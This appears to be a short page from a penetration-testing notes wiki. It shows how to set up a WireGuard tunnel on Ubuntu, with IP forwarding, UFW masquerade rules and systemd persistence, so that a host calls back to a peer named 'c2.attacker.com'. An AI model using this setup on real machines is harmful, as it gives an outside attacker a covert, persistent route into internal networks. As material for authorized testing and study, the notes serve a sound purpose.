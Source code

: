 ```yaml
---
title: WireGuard Tunnel
---
```


[[notes/tunneling/index]] over the [[notes/network/wireguard]] VPN protocol.

The following describes the setup with UFW on Ubuntu.

Create `/etc/wireguard/wg0.conf`:

~~~
[Interface]
PrivateKey = kGxI...
Address = 172.13.13.2/32, fddd:172:13:13::2/128
PostUp=sysctl -q net.ipv4.ip_forward=1 net.ipv6.conf.all.forwarding=1 net.ipv6.conf.default.forwarding=1 && ufw route allow in on wg0

[Peer]
Endpoint = c2.attacker.com:51820
PublicKey = rWDh...
PresharedKey = e1t3...
AllowedIPs = 172.13.13.0/24, fddd:172:13:13::/64
PersistentKeepAlive = 25
~~~

Configure masquerading in UFW.
Append the following to the bottom of `/etc/ufw/before.rules`:

~~~
# wireguard
*nat
:POSTROUTING ACCEPT [0:0]
-A POSTROUTING -s 172.13.13.0/24 -j MASQUERADE
COMMIT
~~~

And append this to `/etc/ufw/before6.rules`:

~~~
# wireguard
*nat
:POSTROUTING ACCEPT [0:0]
-A POSTROUTING -s fddd:172:13:13::/64 -j MASQUERADE
COMMIT
~~~

Enable UFW and start WireGuard.

~~~ bash
ufw enable
wg-quick up wg0
~~~

If everything works make the configuration persistent.

~~~ bash
systemctl enable --now ufw wg-quick@wg0
~~~
